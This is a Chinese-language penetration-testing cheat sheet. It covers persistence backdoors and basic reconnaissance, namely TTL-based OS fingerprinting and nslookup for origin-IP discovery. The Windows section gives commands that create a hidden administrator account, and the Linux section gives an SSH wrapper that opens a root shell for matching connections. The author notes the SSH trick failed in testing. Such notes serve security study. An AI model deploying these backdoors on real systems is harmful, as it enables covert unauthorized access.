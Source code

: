 
### win
#### 创建后门账号
```bash
net user PHPNET$ 1234abcd~ /add #添加用户
#Windows 的帐号名称后带着“$”符号时，不会在 net user 命令中显示出帐号信息
net localgroup administrators PHPNET$ /add #将用户添加到管理组
net user PHPNET$ /del #删除用户

query user #查看会话

logoff ID号 #踢掉
```

### linux
#### SSH wrapper后门
SSH wrapper后门，没有开放额外的端口，只要对方开了SSH服务，就能远程连接
```bash
cd /usr/sbin
mv sshd ../bin
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart
```
抱歉，实际测试未成功

---

## 信息收集
### 网络
- **TTL来判断目的主机的操作系统类型**
下面是默认操作系统的TTL：
```bash
1、WINDOWS NT/2000   TTL：128
2、WINDOWS 95/98     TTL：32
3、UNIX              TTL：255
4、LINUX             TTL：64
5、WIN7              TTL：64
```

- **修改本机电脑上面的默认TTL值**
通过修改本机上的TTL值可以混淆攻击者的判断（当然，很少有用户会这么做）。TTL 值在注册表的位置是：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters `其中有个 DefaultTTL 的 DWORD 值，其数据就是默认的 TTL 值了，我们可以修改 DefaultTTL 里面的 TTL 默认值，但不能大于十进制的 255。

### 网站
#### CDN/查源IP
- **Nslookup法**
`nslookup + 域名`
